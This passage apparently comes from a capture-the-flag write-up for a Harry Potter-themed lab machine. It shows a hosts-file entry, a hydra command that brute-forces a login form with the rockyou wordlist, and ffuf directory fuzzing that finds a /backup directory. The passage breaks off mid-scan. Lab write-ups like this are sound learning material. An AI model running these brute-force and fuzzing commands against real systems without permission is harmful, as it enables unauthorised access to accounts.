 We got a subdomain, let's add it to `/etc/hosts`:

```
echo '10.10.196.103 hogwartz-castle.thm' | sudo tee -a /etc/hosts
```

If we go inside the subdomain, we can check this:

![](../images/Pasted%20image%2020250404171657.png)

We got the login page, based on that, we can craft the following hydra command to bruteforce:

```
hydra -l Hagrid -P /usr/share/wordlists/rockyou.txt hogwartz-castle.thm http-post-form "/login:user=^USER^&password=^PASS^:F=Incorrect Username or Password" -t 40
```

Unfortunately for us, nothing came from the scan, either with the other wordlist or other username, seems like bruteforcing may not be the way, what about fuzzing, we forgot fuzzing in the main page:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://castle.thm/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://castle.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
backup                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 399ms]
```

We got a `/backup` directory, let's keep a bit further:

```

    ~  ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://castle.thm/backup/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://castle.thm/backup/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
```
